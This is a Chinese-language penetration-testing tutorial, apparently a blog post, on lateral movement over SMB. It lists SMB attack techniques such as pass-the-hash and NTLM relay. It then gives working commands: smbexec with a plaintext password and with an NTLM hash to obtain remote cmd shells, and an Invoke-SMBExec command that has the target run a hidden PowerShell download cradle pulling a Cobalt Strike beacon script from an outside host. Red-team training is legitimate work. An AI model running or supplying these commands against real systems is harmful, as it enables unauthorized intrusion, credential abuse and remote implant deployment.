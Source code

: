 ## 简介

SMB (Server Message Block) 是一种网络文件共享协议，允许应用程序（或用户）在客户端和服务器之间读写文件并请求服务

在内网渗透测试和横向移动中，SMB (Server Message Block) 协议起着关键的作用。以下是SMB在此背景下的几个主要功能：

- **文件共享**：SMB最初的目的是提供文件共享。攻击者可以利用SMB文件共享来查找敏感文件、下载恶意工具或执行恶意载荷。
- **远程代码执行**：利用SMB协议的工具和技巧（如Psexec）允许攻击者在远程系统上执行代码。
- **凭证盗取**：某些攻击手法，如“Pass-the-Hash”或“Pass-the-Ticket”，允许攻击者使用盗取的凭证或哈希在SMB服务上进行身份验证，从而在网络内部的其他系统上获得访问权限。
- **信息搜集**：SMB可以用来搜集关于远程系统的信息，如操作系统版本、安装的补丁等。
- **漏洞利用**：在过去，SMB协议本身存在多个严重的漏洞，如EternalBlue，这些漏洞被广泛利用来进行横向移动和网络自动化传播。
- **NetNTLM中继和嗅探**：攻击者可以尝试中继或嗅探SMB认证尝试，如NetNTLM哈希，然后使用这些哈希来进行身份验证或进行离线破解。
- **默认共享**：Windows系统上的默认共享（如C$、ADMIN$）为横向移动提供了机会，因为这些共享可能允许已认证的用户访问。



## SMB横移工具

### smbexec

smbexec是impacket工具包里的工具，支持明文传递和hash传递，命令执行成功后会得到目标服务器的cmd shell



如下命令使用明文传递来获取cmd shell

```
smbexec administrator:qQ123456@10.10.10.10
```

![image-20230903204930250](内网横向移动/image-20230903204930250.png)	

​	

如下命令使用hash传递来获取cmd shell

```
smbexec -hashes aad3b435b51404eeaad3b435b51404ee:e39c2287a10517cf1cde66bd8c7c6cf0 administrator@10.10.10.10
```

![image-20230903212359914](内网横向移动/image-20230903212359914.png)



### Invoke-SMBExec

Invoke-SMBExec是Invoke-TheHash工具包里的powershell脚本，如下命令实现执行远程powershell命令来让目标服务器在CS上线

```
Invoke-SMBExec -Target 10.10.10.10 -Domain henry.com -Username administrator -Hash e39c2287a10517cf1cde66bd8c7c6cf0 -Command "powershell.exe -nop -w hidden -c IEX((new-object net.webclient).downloadstring('http://10.10.10.3:8000/beacon.ps1'))" -verbose
```

![image-20230903221834484](内网横向移动/image-20230903221834484.png)



​						

# END